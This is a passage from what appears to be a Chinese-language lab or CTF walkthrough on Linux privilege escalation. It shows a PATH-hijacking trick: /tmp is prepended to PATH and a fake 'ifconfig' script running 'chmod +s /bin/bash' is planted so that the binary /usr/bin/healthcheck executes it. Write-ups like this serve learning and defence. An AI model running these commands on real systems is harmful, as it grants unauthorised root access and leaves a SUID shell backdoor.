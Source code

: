 可以看到，这里调用命令的时候，并不是绝对路径，是根据环境变量调用的，那么就可以利用这一点，去提权。

```shell
cd /tmp
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
```

![](./pic/38.jpg)

这时候就会优先调用`/tmp`目录的，写一个文件，命名为`ifconfig`，然后代码为提权，如

```shell
echo "chmod +s /bin/bash" > ifconfig
chmod 777 ifconfig
```

![](./pic/39.jpg)

然后开始执行`/usr/bin/healthcheck`，这时候可以看到`ifconfig`网络信息的内容没有了
